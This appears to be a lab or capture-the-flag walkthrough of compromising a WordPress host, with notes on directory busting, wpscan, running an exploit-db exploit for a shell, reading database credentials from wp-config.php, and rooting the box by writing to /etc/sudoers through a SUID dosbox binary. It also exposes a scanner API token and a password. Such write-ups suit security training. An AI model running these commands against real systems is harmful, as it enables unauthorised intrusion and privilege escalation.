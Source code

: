 
# Mapping
**robots.txt:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```

![](../attachment/6e32627e187d5ad3fd423bf60919f55d.png)
It's a wordpress site with bad spelling.

Using wp-scan:
```
wpscan --url http://192.168.198.105/ --api-token qa7plsUQx372hiQc5FQUPOjcfhGUCQ2Dp8DQi4ate2k
```
![](../attachment/895db67227a6a074f20351f19682dd61.png)
Using this exploit:
https://www.exploit-db.com/exploits/48979

Modifying the ip and port:
![](../attachment/9ea06c4a5d7f8e4cddaf278c3820449a.png)

```
python3 file.py http://192.168.198.105
```
Running it we get a shell:
![](../attachment/153d3f1e1c96c957a854b76ed73fa284.png)

Now checking the wp-config.php:
![](../attachment/4f0b4b05558bb0b51fc268e741036ee4.png)
We have credentials
```
mysql -u commander -pCommanderKeenVorticons1990 -h localhost
```
Now logging in we found wp_users table:
![](../attachment/295d68322af56da0ef005a932007ca5a.png)

![](../attachment/e4d01a79c973692be6fdbf44f4273e44.png)
We have a hash for admin.

![](../attachment/404330e06dd22302c4bf15bcd80c9a73.png)
We can switch to commander user with the same password and `su commander`

Now running linpeas we found suid binary dosbox:
![](../attachment/92f5f189d504933028e4e47c54898b1e.png)

Now to privesc and checking from gtfobins:
```
LFILE='/etc/sudoers'
```
```
dosbox -c 'mount c /' -c "echo commander ALL=(ALL:ALL) ALL >>c:$LFILE" -c exit
```
![](../attachment/66304aa65c3b572daf117b58c8aa7e14.png)
And we are root.
![](../attachment/b7714e6cc8e6c0b7a68a1c3d6ea7a1b8.png)

